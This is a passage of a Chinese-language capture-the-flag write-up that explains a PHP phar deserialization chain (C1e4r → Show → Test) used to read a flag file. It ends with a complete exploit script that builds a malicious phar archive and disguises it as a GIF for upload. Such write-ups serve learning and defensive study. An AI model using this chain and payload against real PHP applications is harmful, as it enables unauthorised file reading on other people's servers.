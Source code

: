 但是Test类的get方法能够获取一个参数做为文件名，然后调用file_get方法返回文件内容的base64值。而且__get魔术方法调用了get方法。我们可以想办法触发__get魔术方法。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://upload-images.jianshu.io/upload_images/9113969-82ea4ad8ec9e27db.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

Show类的__toString魔术方法调用了未知对象的source属性，而对象str[‘str’]我们可控，因此我们可以传入Test对象去调用不存在的source属性来触发__get方法。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://upload-images.jianshu.io/upload_images/9113969-f0dc5ba1066cc64f.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

而C1e4r类的__destruct()方法可以用来触发Show类的__toString方法

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://upload-images.jianshu.io/upload_images/9113969-db78352fda0bb3fb.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

最终的exp

```
&lt;?php
class C1e4r`{`
    public $test;
    public $str;
`}`

class Show
`{`
    public $source;
    public $str;
`}`

class Test
`{`
    public $file;
    public $params;

`}`

$a = new Test();
$a-&gt;params = [
    'source' =&gt; '/var/www/html/f1ag.php'
];

$b = new Show();
$b-&gt;str['str'] = $a;

$c = new C1e4r();
$c-&gt;str = $b;

$phar = new Phar("phar.phar"); //后缀名必须为phar
$phar-&gt;startBuffering();
$phar-&gt;setStub("&lt;?php __HALT_COMPILER(); ?&gt;");
$phar-&gt;setMetadata($c); //将自定义的meta-data存入manifest
$phar-&gt;addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar-&gt;stopBuffering();

copy('phar.phar','exp.gif');

?&gt;
```
